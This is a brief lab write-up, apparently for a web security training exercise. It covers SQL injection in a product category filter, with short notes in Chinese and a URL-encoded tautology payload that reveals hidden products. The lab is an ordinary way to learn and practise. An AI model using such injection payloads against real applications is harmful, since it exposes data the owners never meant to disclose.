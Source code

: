 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

SELECT * FROM products WHERE category = 'Gifts' AND released = 1

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

## SQL injection
* 很直白的題目，要拿到所有的 products
* 注入點在 `catagory`
```
payload = Pets%27%20or%20123=123%20--%20-
```